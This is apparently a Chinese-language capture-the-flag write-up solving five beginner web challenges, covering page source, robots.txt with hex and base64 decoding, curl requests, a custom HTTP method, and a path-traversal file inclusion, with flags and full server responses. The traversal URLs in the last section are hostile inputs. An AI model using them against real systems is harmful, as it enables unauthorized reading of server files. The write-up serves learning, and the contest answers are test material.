 # Web101

## Web-1:source code

解題步驟1:按下鍵盤F12/滑鼠右鍵=>檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-1.png)

解答:

>BreakALLCTF{3xjVYR8dMetWQbwzYsLJ}


## web-2:Robots.txt

解題步驟1:在網址後方打上/robots.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(1).png)

解題步驟2:按下Enter後，出現文字<br>
User-agent: *
Disallow: /images
Disallow: /secret
==>在網址後方打上/secret

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(2).png)
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(3).png)

解題步驟3:點下flag.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(4).png)

解題步驟4:hex to string

>echo 516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939 | xxd -r -p

解題步驟5:base64 decode

>echo QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99 | base64 --decode
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(5).png)

解答:

>BreakALLCTF{7QtKB2N5TlqAAEzCrzNO}

也可使用線上解碼工具:
>https://codebeautify.org/hex-string-converter<br>
>https://www.base64decode.org/<br>


## Web-3:Curl-1

解題步驟1:在'GO!'圖示上按下滑鼠右鍵檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(1).png)

解題步驟2:發現網頁index.php
==>使用curl工具

>curl http://120.114.62.89:2014/index.php<br>
>curl -x Get -v http://120.114.62.89:2014/index.php<br>
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(2).png)

解答:

>BreakALLCTF{91YODwgPD58gpC4H9AeD}


## web-4:HTTP method

解題步驟1:使用curl工具<br>
==>curl -X GET,POST,OPTIONS,HEAD -v http://120.114.62.89:3001/index.php

curl -X GET -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GET /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Tue, 29 May 2018 16:35:06 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 199
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>GET to /index.php not supported.<br />
</p>
* Closing connection 0
</body></html>
```
curl -X POST -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> POST /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Tue, 29 May 2018 16:40:40 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 200
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>POST to /index.php not supported.<br />
</p>
* Closing connection 0
</body></html>
```
curl -X HEAD -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> HEAD /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Tue, 29 May 2018 16:40:57 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Connection: close
< Content-Type: text/html
< 
* Closing connection 0
```
curl -X OPTIONS -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> OPTIONS /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Tue, 29 May 2018 16:41:17 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Allow: GETFLAG,OPTIONS
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
```

解題步驟2:發現可使用GETFLAG

curl -X GETFLAG -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Tue, 29 May 2018 16:41:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
BreakALLCTF{fzfaD1jdXyQAMWvRShGC}
```

解答:

>BreakALLCTF{fzfaD1jdXyQAMWvRShGC}<br>
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web%20-4.png)

HTTP狀態碼:
>https://en.wikipedia.org/wiki/List_of_HTTP_status_codes
```
200 OK
請求已成功，請求所希望的回應頭或資料體將隨此回應返回。實際的回應將取決於所使用的請求方法。在GET請求中，回應將包含與請求的資源相對應的實體。在POST請求中，回應將包含描述或操作結果的實體。
501 Not Implemented
伺服器不支援當前請求所需要的某個功能。當伺服器無法識別請求的方法，並且無法支援其對任何資源的請求。
```

## web-5:Local File Inclusion

解題步驟1:從最底層的資料夾找起

>http://120.114.62.89:2003/index.php?page=flag

解題步驟2:再往上層資料夾尋找

>http://120.114.62.89:2003/index.php?page=../flag

解題步驟3:最終在第四層資料夾找到

>http://120.114.62.89:2003/index.php?page=../../../../flag
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web%20-5.png)

解答:

>BreakALLCTF{887cs9oKULT0lvtY2bVu} 

